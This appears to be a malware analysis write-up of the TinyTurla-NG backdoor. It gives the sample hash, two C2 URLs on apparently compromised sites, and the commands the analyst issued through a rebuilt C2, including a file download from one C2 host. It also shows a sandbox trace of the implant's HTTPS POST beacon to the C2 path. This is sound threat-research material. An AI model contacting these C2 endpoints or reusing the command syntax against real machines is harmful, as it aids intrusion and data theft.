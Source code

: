 ```yaml
---
title: "TinyTurla"
date: 2025-03-03
---
```


<link rel="stylesheet" href="/css/main.css">

## TinyTurla

## Context  

SHA256 : 267071DF79927ABD1E57F57106924DD8A68E1C4ED74E7B69403CDCDF6E6A453B  
sample source : [bazaar.abuse.ch](https://bazaar.abuse.ch/sample/267071df79927abd1e57f57106924dd8a68e1c4ed74e7b69403cdcdf6e6a453b/)  
VT : [virustotal](https://www.virustotal.com/gui/file/267071df79927abd1e57f57106924dd8a68e1c4ed74e7b69403cdcdf6e6a453b)  
Report: <https://blog.talosintelligence.com/tinyturla-next-generation/>  


C2 :  
https://thefinetreats.com/wp-content/themes/twentyseventeen/rss-old.php  
https://hanagram.jp/wp/wp-content/themes/hanagram/rss-old.php  

Analyzed sample is a 64bit Service DLL attributed to TURLA by TALOS and named TinyTurla-NG.

As usual, results from dynamic analysis are shared in my repository ([logs](https://github.com/cedricg-mirror/reflexions/blob/main/APT/TURLA/TinyTurla/267071DF79927ABD1E57F57106924DD8A68E1C4ED74E7B69403CDCDF6E6A453B/logs.txt))  

**Commentary**

Analysed sample is already well described in the TALOS report so I won't go into details.  
For this analysis, I chose to rebuild a small C2 and order the malware to execute the following commands while supervised by my sandbox :  

- dir C:\users  
- get https://hanagram.jp/wp/wp-content/The%20New%20Colossus.txt Liberty.txt

---

First Beaconing to a reachable C2 :  

```html
[ * ] [pid 0x250][tid 0x990] c:\windows\system32\svchost.exe
[API] <WinHttpOpenRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hConnect          : 0x5f6d55b0
[PAR] LPCWSTR   pwszVerb          : 0x000000E45FF8F508
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x000000E46048E780
[STR]           -> "/wp/wp-content/themes/hanagram/rss-old.php"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x800100 (WINHTTP_FLAG_SECURE | WINHTTP_FLAG_BYPASS_PROXY_CACHE)
[RET] 0x7fff33b8bc26 in [tinyturla.dll]

[ * ] [pid 0x250][tid 0x990] c:\windows\system32\svchost.exe
[API] <WinHttpSendRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest         : 0x000000E45F62CE30
[PAR] LPCWSTR   pwszHeaders      : 0x000000E46048ECC0
[STR]           -> "Content-Type: multipart/form-data; boundary="-""
[PAR] DWORD     dwHeadersLength  : 0xffffffff
[PAR] LPVOID    lpOptional       : 0x0 (null)
[PAR] DWORD     dwOptionalLength : 0x0
```